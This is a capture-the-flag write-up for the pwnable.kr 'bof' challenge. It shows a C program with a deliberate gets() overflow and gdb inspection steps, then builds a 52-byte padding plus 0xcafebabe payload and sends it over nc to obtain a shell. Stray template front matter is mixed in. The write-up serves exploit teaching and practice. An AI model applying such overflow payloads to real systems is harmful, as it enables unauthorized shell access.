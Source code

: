 ```yaml
---
layout: default
title: pwnable_bof
parent: Pentest
nav_order: 2
---
```

---
layout: default
title: Buttons
parent: UI Components
nav_order: 2
---

# pwnable bof
Source :
- [pwnable.kr](http://pwnable.kr/play.php)
---
## fuzzer 模糊字串產生方便debug
```python
import string
import random
def id_generator(size=6, chars=string.ascii_uppercase + string.digits):
    return ''.join(random.choice(chars) for _ in range(size))
 
# 執行結果
>>> id_generator()
'G5G74W'
>>> id_generator(3, "6793YUIO")
'Y3U'
```
## 程式原始碼
``` c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
---
```
-  smash me!
-  if(key == 0xcafebabe)......
-  觀察key的位址直接修改

---
## solution

### gdb
```asm
b func
```
![bof1](https://github.com/Larry-Huang/bof4/blob/master/bof1.JPG?raw=true)
```asm
##此處跳轉
cmp DWORD PTR [ebp+8],0xcafebabe
```
![bof2](https://github.com/Larry-Huang/bof4/blob/master/bof2.JPG?raw=true)
```asm
##覆蓋key的位址
##計算後要52+4
'A'*52+ \xbe\xba\xfe\xca
```
![bof3](https://github.com/Larry-Huang/bof4/blob/master/bof3.JPG?raw=true)
```asm
##修改OK
```
![bof4](https://github.com/Larry-Huang/bof4/blob/master/bof4.JPG?raw=true)
```python
#debug 
python -c "print 'A'*52+'\xbe\xba\xfe\xca'" > input.txt
#gdb
r < input.txt
#nc pwnable.kr 9000
#keep stding with python 
cat <(python -c "print 'A'*52+'\xbe\xba\xfe\xca'") - | nc pwnable.kr 9000
```




